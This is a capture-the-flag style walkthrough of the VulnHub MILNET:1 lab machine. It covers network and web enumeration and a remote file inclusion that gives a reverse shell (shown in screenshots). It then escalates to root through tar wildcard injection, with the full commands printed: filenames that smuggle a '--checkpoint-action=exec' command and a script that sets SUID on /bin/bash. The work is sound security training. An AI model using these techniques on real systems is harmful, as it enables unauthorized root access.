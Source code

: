 # MILNET: 1

## 1.GET VM IP

```text
root@kali: arp-scan -I eth1 -l

Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
WARNING: Cannot open MAC/Vendor file ieee-oui.txt: Permission denied
WARNING: Cannot open MAC/Vendor file mac-vendor.txt: Permission denied
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1   00:50:56:c0:00:01       (Unknown)
192.168.127.231 00:0c:29:a0:3b:c4       (Unknown)
192.168.127.254 00:50:56:fd:64:8a       (Unknown)
```

The VM IP is `192.168.127.231`, let's enumerate it.

## 2.Enumeration

```text
root@kali: nmap -sV -sC 192.168.127.231 -p- -v -oN fullscan

Nmap scan report for 192.168.127.231
Host is up (0.0018s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 9b:b5:21:38:96:7f:85:bd:1b:aa:9a:70:cf:db:cd:36 (RSA)
|   256 93:30:be:c2:af:dd:81:a8:25:2b:57:e5:01:49:91:57 (ECDSA)
|_  256 37:40:2b:cc:27:ae:89:22:d0:d2:65:65:c4:9b:53:42 (ED25519)
80/tcp open  http    lighttpd 1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: lighttpd/1.4.35
MAC Address: 00:0C:29:A0:3B:C4 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Lets' see the web page :

![mainPage](https://github.com/Git-K3rnel/VulnHub/assets/127470407/1d8bfdcd-6cef-4e90-8159-46237d681b72)

analyzing the website shows that it is using basic functions and have basic pages, but if you look closer you see a parameter

that is used to call each page, `route`, which opens new pages :


![route](https://github.com/Git-K3rnel/VulnHub/assets/127470407/7fb366da-a6bd-4447-85c8-1c60876b3dea)

since this is a parameter that loads other pages, i decided to first FUZZ any other pages available by this parameter :

```text
root@kali: ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -H "Content-Type: application/x-www-form-urlencoded" -X POST -d "route=FUZZ" -u http://192.168.127.231/content.php -fs 1

[Status: 200, Size: 146, Words: 7, Lines: 10, Duration: 13ms]
    * FUZZ: index

[Status: 200, Size: 110, Words: 8, Lines: 6, Duration: 14ms]
    * FUZZ: main

[Status: 200, Size: 64312, Words: 2958, Lines: 703, Duration: 12ms]
    * FUZZ: info

[Status: 200, Size: 533, Words: 31, Lines: 16, Duration: 12ms]
    * FUZZ: nav

[Status: 500, Size: 369, Words: 37, Lines: 12, Duration: 609ms]
    * FUZZ: content

[Status: 200, Size: 3902, Words: 519, Lines: 30, Duration: 7ms]
    * FUZZ: bomb

[Status: 200, Size: 254, Words: 26, Lines: 14, Duration: 6ms]
    * FUZZ: props
```

yes, i found `info` directory and navigated to it using firefox `edit and resend`:

![php](https://github.com/Git-K3rnel/VulnHub/assets/127470407/38b760ba-2a44-4598-aea3-b1390c349ab3)

it shows phpinfo which is alot useful, pay attention to this section :

![urlopen](https://github.com/Git-K3rnel/VulnHub/assets/127470407/74d321a3-7aa5-4f23-ad53-aa2d0c3425e6)

this line shows that we can include external URLs and it loads it, meaning we have `RFI` here, the `route`

parameter is interesting because it suspicious to `LFI` too :

![LFI](https://github.com/Git-K3rnel/VulnHub/assets/127470407/25f01221-8a2c-45b0-87a8-9f48772b0242)

as you can see, it loads the info page again. so since we have LFI and RFI here, if first tried to load the

source code of the pages with PHP wrapper base64 encode :

![wrapper](https://github.com/Git-K3rnel/VulnHub/assets/127470407/1483dd4b-0c48-45ab-a622-bb0bbe4d3040)

but it did not show anything.

## 3.Gaining Shell

I tried to use RFI and used pentest monkey php reverse shell and saved it to `revshell.php`

and using python http server i served the file and sent a request to my server to get a reverse shell.

![revshell2](https://github.com/Git-K3rnel/VulnHub/assets/127470407/697ee6df-ce27-4ce6-9b59-ba01419cfbfa)

![revshell](https://github.com/Git-K3rnel/VulnHub/assets/127470407/ea55107b-0949-4777-a469-91908ddc07df)

yes, this is our shell.

## 4.Privilege Escalation

One of the first things i do each time gaining access to a machine is to check crontab file and its subdirectories :

```text
$ cat /etc/crontab

# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/1 *   * * *   root    /backup/backup.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

luckily we see that every one minute a file `backup.sh` is beding executed, let see the permission and content of this file :

```text
$ ls -l /backup/backup.sh
-rw-r--r-x 1 root root 57 May 21  2016 /backup/backup.sh

$ cat /backup/backup.sh
#!/bin/bash
cd /var/www/html
tar cf /backup/backup.tgz *
```

as it is shown, it has root permissions and it is going to make a backup of all `/var/www/html` contents by using `tar` command.

i just got confused by the way it is doing it, after alittle research and seeing hacktricks site for `tar` command [here](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks#tar)

i noticed that using wildcard here is the problem and can lead to arbitary command execution since it is in `Wildcards Spare tricks` section of hacktricks website.

then i researched about tar wildcard exploitation and found hacking articles talking about it [here](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)

this the way i exploited this vulnerability :

```text
$ cd /var/www/html

$ echo "" > --checkpoint=1

$ echo "" > "--checkpoint-action=exec=sh shell.sh"

$ echo '#!/bin/bash' > shell.sh

$ echo 'chmod +s /bin/bash' >> shell.sh

$ cat shell.sh
#!/bin/bash
chmod +s /bin/bash
```

wait a minute and then check the permission of the bash executable :

```text
$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1037464 Sep  1  2015 /bin/bash
```

as we expected there is a SUID on this binary, what we need to do is to execute it like this :

```text
$ /bin/bash -p

id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)

cd /root

ls
credits.txt

cat credits.txt
        ,----,
      ,/   .`|
    ,`   .'  :  ,---,                          ,---,.
  ;    ;     /,--.' |                        ,'  .' |                  ,---,
.'___,/    ,' |  |  :                      ,---.'   |      ,---,     ,---.'|
|    :     |  :  :  :                      |   |   .'  ,-+-. /  |    |   | :
;    |.';  ;  :  |  |,--.   ,---.          :   :  |-, ,--.'|'   |    |   | |
`----'  |  |  |  :  '   |  /     \         :   |  ;/||   |  ,"' |  ,--.__| |
    '   :  ;  |  |   /' : /    /  |        |   :   .'|   | /  | | /   ,'   |
    |   |  '  '  :  | | |.    ' / |        |   |  |-,|   | |  | |.   '  /  |
    '   :  |  |  |  ' | :'   ;   /|        '   :  ;/||   | |  |/ '   ; |:  |
    ;   |.'   |  :  :_:,''   |  / |        |   |    \|   | |--'  |   | '/  '
    '---'     |  | ,'    |   :    |        |   :   .'|   |/      |   :    :|
              `--''       \   \  /         |   | ,'  '---'        \   \  /
                           `----'          `----'                  `----'


This was milnet for #vulnhub by @teh_warriar
I hope you enjoyed this vm!

If you liked it drop me a line on twitter or in #vulnhub.

I hope you found the clue:
/home/langman/SDINET/DefenseCode_Unix_WildCards_Gone_Wild.txt
I was sitting on the idea for using this technique for a BOOT2ROOT VM prives for a long time...

This VM was inspired by The Cuckoo's Egg.
If you have not read it give it a try:
http://www.amazon.com/Cuckoos-Egg-Tracking-Computer-Espionage/dp/1416507787/
```

yes, this is how we can root this machine :)





